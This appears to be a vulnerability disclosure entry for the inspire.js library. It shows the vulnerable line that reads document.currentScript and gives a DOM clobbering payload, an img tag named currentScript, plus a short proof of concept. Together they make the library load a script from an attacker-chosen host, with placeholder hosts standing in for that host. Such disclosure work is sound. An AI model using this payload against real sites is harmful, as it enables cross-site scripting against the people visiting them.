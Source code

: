 ## inspire.js

### Meta

+ Library: inspire.js
+ Stars: 1.7k
+ Version: v1.10
+ Fingerprint: `window.hasOwnProperty('inspireLoaded')`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

URL:
+ `https://inspirejs.org/inspire.js`

### Vulnerable Code Snippet

```javascript
let url = new URL("./inspire.mjs", document.currentScript ? document.currentScript.src : "https://inspire.js.org/");
```

## PoC

```
<!--Library-->
<script src="https://inspirejs.org/inspire.js"></script>
<!--Library-->

<!--Payload-->
<img name=currentScript src="http://localhost:9999"></img>
<!--Payload-->
```
